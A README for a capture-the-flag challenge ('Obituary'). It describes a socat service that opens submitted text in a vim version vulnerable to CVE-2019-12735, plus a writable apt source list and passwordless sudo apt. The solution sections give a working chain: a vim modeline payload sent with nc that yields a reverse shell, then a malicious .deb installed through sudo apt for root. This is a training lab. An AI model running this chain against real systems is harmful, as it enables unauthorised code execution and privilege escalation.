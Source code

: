 # Obituary

```text
Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready.

You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!
```

## Setup

1. `docker build -t obituary .`
2. `docker run --rm -d obituary`

## Brief Dev Description

Simple socat server which, per session, accepts a stream of text and writes it to a `mktemp`'d file. When the TCP
stream is closed, the file is opened with vim (via screen), then closed and deleted after 5 seconds.

Unfortunately for the host, the specific (I mean real specific) version of vim used is vulnerable to CVE-2019-12735.
Additionally, the user has left a apt source list as global rw and NOPASSWD'd apt.

## Solution, pt 1

```sh
#!/bin/bash

cat solution/pt1/payload.txt | nc -q 1 172.30.0.2 4321 &
nc -lvnp 4444
```

`payload.txt` is simply a *slightly* modified version of
[this](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/shell.txt).

You may need to modify the IPs in payload.txt and that shown above, but I doubt it.

## Solution, pt 2

1. `sudo apt install dh-make` (only on debian-based distros; you can do this on other distros with other tools)
2. `cd solution/pt2`
3. `./build.sh`
4. In the shell gained from pt1: `nc -lp 5555 > exploit_0_all.deb`
5. Original shell: `cat exploit_0_all.deb | nc -q 1 172.30.0.2 5555`
6. pt1 shell: `sudo apt -y install ./exploit_0_all.deb`
